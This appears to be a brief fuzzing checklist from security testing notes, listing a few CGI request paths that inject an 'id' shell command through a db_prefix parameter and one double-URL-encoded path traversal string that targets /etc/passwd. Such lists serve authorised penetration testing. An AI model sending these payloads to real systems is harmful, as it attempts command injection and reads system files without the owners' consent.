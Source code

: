# Fuzzing Checklist


```
cgi-bin/dmt/reset.cgi?db_prefix=%26id%26
cgi-bin/reset.cgi?db_prefix=%26id%26
cgi-bin/dmt/reset.cgi?db_prefix=%26id%26
cgi-bin/FUZZ.cgi?FUZZ=%26id%26
```

```
/****/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/.%252e/etc/passwd
```


